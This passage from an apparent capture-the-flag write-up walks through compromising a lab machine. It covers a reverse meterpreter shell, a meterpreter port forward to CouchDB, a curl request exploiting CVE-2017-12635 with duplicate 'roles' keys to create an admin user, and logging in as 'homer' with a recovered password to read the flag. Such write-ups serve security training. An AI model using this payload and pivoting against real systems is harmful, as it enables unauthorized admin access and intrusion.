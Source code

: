 And send the two requests (submit and check) to the website to get a reverse meterpreter shell.

Enumerating the system finds a hash in a `.htpasswd` file but no luck cracking it:
```
/var/www/git/.htpasswd
homer:Git Access:7818cef8b9dc50f4a70fd299314cb9eb
```

However, there is the couchdb service running. To explore this, we can forward a port on the attacker machine to the target as follows in meterpreter:
```
meterpreter > portfwd add -l 12345 -p 5984 -r 127.0.0.1
[*] Local TCP relay created: :12345 <-> 127.0.0.1:5984
```

And it seems that the version is 2.0.0 so we should be able to exploit the CVE-2017-12635 to get an admin user. Let's try as explained in <https://justi.cz/security/2017/11/14/couchdb-rce-npm.html> and use curl:
```bash
❯❯❯ curl -X PUT 'http://localhost:12345/_users/org.couchdb.user:rireoubli' --data-binary '{"type": "user","name": "rireoubli","roles": ["_admin"],"roles": [],"password": "password"}'
{"ok":true,"id":"org.couchdb.user:rireoubli","rev":"1-b365367021142351973cda6f705b5305"}
```

Seems to be working, we can log in and browse the database. Furthermore, there is a DB called `passwords` that gives the password of the `homer` account:
![](./134_screen01.png)

So we can now su to this user with the password `0B4jyA0xtytZi7esBNGp` and from here we get the flag:
```bash
www-data@canape:/$ su homer
Password: 0B4jyA0xtytZi7esBNGp

bash: cannot set terminal process group (1212): Inappropriate ioctl for device
bash: no job control in this shell
homer@canape:/$ cat /home/homer/user.txt
bce918696f293e62b2321703bb27288d
```
